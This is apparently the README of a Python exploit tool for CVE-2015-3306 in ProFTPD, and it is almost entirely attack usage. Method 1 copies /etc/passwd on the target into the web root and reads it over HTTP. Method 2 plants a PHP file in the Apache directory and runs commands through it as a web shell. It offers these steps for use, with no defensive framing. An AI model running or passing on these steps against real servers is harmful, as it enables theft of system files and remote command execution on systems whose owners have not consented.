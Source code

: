 # cpx_proftpd.py (by daldana)

Tool for exploit CVE-2015-3306

METHOD 1:
--------
usage: 
  python cpx_proftp.py 1 <IP> <REMOTE_FULLPATH_SRC_FILE> <REMOTE_FULLPATH_DST_FILE>

ex:
  python cpx_proftp.py 1 127.0.0.1 /etc/passwd /var/www/pass.txt

then try:
  http://127.0.0.1/pass.txt

METHOD 2:
--------

usage: 
  python cpx_proftp.py 2 <IP> <REMOTE_FULLPATH_APACHE2>

ex:
  python cpx_proftp.py 2 127.0.0.1 /var/www/html

then try:
  http://127.0.0.1/xxx.php?img=ls
